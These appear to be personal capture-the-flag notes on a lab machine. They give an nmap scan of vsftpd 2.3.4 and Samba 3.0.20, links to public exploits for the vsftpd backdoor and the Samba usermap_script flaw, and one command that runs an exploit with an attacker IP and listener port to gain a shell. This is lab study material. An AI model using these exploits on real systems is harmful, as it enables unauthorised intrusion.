 # Scan
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# Access
no exploits for ssh
for vsftpd -> vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) | exploits/unix/remote/17491.rb
  6200/tcp filtered lm-x
  I guess you have to send specific commands to get it to open. https://subscription.packtpub.com/book/networking_and_servers/9781786463166/1/ch01lvl1sec18/vulnerability-analysis-of-vsftpd-2-3-4-backdoor
  https://github.com/In2econd/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py
The vsftpd thing doesn't seem to work manually or over MSF. Not sure if it's uspposed to? 
Fine, that doesn't work:
  https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py
  python exploits/16320.py 10.10.10.3 445 10.10.14.23 1234

That's it. Get both

# Lessons
spent too much time looking into VSFTPD because I thought that was right and should have worked. Didn't even bother looking at the other for awhile. Should keep in mind I might be off. 
